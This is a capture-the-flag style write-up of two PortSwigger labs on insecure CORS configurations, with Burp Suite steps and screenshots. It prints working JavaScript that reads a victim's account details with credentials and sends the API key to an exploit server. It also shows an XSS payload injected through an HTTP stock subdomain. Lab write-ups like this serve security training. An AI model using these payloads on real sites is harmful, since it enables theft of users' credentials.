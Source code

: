 ### Lab: [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)


	Description: This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.
	To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
	You can log in to your own account using the following credentials: `wiener:peter`


Step 1: Open the application with browser of **Burp Suite**, check out the features of the applicaton
After login with credential: `wiener:peter`, application display this account's API key. 
![](../../Img_note/Pasted%20image%2020221214235519.png)

Go to **HTTP history**, we can see a request to url ==/accountDetails==
![](../../Img_note/Pasted%20image%2020221214235543.png)

We test many origins and found that the application accept all origins with **Access-Control-Allow-Crenditals: true** => insecure

Step 2: 
Because the application trutst all origins and all origins can access resources from the vulnerable domain. 
With the exploit server, i craft a response with script that sent a request to the vulnerable domain and get sensitive infomation from it to exploit server.


```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a7b000a04b147fbc103cbf400f600b0.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

When call function ReqListener, it will come to / endpoint of exploit server with the information  received from the vulnerability application. We can check by come to **Access log**

![](../../Img_note/Pasted%20image%2020221215111002.png)

Submit the api of `Administrator` and we finish the lab
![](../../Img_note/Pasted%20image%2020221215111315.png)


### Lab: [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

	Description: This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.
	To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: `wiener:peter`



Step 1: Open the application with browser of **Burp Suite**, check out the features of the applicaton
After login with credential: `wiener:peter`, the application display this account's API key. 

Go to **HTTP history**, we can see a request GET ==/accountDetails==
![](../../Img_note/Pasted%20image%2020221215144830.png)

I sent this request to **Burp Repeater**, tested with many origins to check it CORS and found that it trusts all subdomains regardless of the protocol. => Insecure CORS configuration
![](../../Img_note/Pasted%20image%2020221215144811.png)

Continue with the vulnerable web application, when i use function check stock, a window pop up with **Stock level**. 

![](../../Img_note/Pasted%20image%2020221215145853.png)

This window access to url ==http://stock.[my lab's id].web-security-academy.net/?productId=1&storeId=1 ==
![](../../Img_note/Pasted%20image%2020221215150300.png)

I realized that the above url connects through HTTP protocol

![](../../Img_note/Pasted%20image%2020221215151054.png)


We will create a script as same as Lab: [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
 
```
<script>
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','https://0a69004903d3947ec0063193003c00cb.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true;req.send();

	function reqListener() {location='https://exploit-0ac2005203b7946dc0803074016a00ae.exploit-server.net/log?key='%2bthis.responseText; };
</script>
```

And excute it via Cross-Site scripting (XSS)
```
<script>
    document.location="http://stock.0a69004903d3947ec0063193003c00cb.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a69004903d3947ec0063193003c00cb.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac2005203b7946dc0803074016a00ae.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

To execute the command: 
- Input above script to ==body== in **exploit server**  
- click **Store** and **Deliver exploit to victim**
- Come to **Access Log**  and get the ==apikey==
![](../../Img_note/Pasted%20image%2020221215010006.png)

Submit the ==apikey== at **Submit Solution**

![](../../Img_note/Pasted%20image%2020221215010025.png)




